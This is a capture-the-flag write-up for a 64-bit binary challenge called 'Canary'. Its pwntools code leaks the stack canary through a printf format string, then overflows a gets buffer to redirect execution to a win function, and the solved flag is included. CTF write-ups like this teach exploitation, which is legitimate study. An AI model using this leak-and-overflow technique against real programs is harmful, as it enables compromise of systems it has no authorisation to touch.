 # Canary writeup by Srdnlen
## Binary, 70 pts.

#### Description
A tear rolled down her face like a tractor. “David,” she said tearfully, “I don’t want to be a farmer no more.”

—Anonymous

Can you call the flag function in this program (source)? Try it out on the shell server at /problems/2020/canary or by connecting with `nc shell.actf.co 20701`.

Author: kmh

#### Hint
That printf call looks dangerous too...

### Writeup
#### Analysis
At lines 39 and 44 we can see 2 calls to "gets", an unsafe function which allows us to overflow the buffer.<br>
However, the binary has canaries. Canaries are an integer on the stack which is set at the beginning of the function. Before exiting the function, the program checks if they have been corrupted. If they have, the program is killed. That means we cannot just overflow the buffer and set a return address. However, in this program we can leak the canary thanks to the `printf format string attack`.

```C
char name[20];
gets(name);
printf("Nice to meet you, ");
printf(strcat(name, "!\n"));
printf("Anything else you want to tell me? ");
char info[50];
gets(info);
```

The first string (name) is passed to printf. We can use this to leak the canary. Then, with the second gets, we overflow the buffer, keeping the canary with the same value. Our overflow will not trigger the stack smashing check snymore and we will be able to redirect the program's flow.

#### Leaking the Canary
Our first string should be like `%N$p', which will tell printf to print the Nth integer on the stack. This program is 64bit so it will be a 64bit integer.<br>
How to find N for the canary? Here's a really lazy way to do it:

```Python
for x in range(1, 20):
    p = process('./canary')
    p.sendline('%{}$p'.format(x).encode('ascii'))
    p.recvuntil(b'Nice')
    print('N:', x)
    print('Value:', p.recvline().decode('ascii'))
    p.close()
```

Run this multiple times and analyze the output. You're looking for an integer which appears to be quite random every time. In this program, I found N to be 17.


#### Redirecting program flow
Now, let's redirect program flow. First, use radare2 or IDA or similar to find out the size of the buffer and the address of the win function.<br>
The win function is at 0x400787.<br>
The string starts at RBP - 0x40. At RBP - 0x8 we find the canary, and at RBP + 8 we find the return address. Let's craft our overflow accordingly.<br>

```Python
p.sendline('%{}$p'.format(17).encode('ascii'))
p.recvuntil(b'Nice to meet you, ')
canary = int(p.recvuntil(b'!')[:-1].decode('ascii'), 16)
print('Canary: {}'.format(hex(canary)))

exploit = b'a' * (0x40 - 0x8) + p64(canary) + b'a' * 8 + p64(win_func)
p.sendline(exploit)
print(p.recvall().decode('ascii'))
```

### Flag
`actf{youre_a_canary_killer_>:(}`
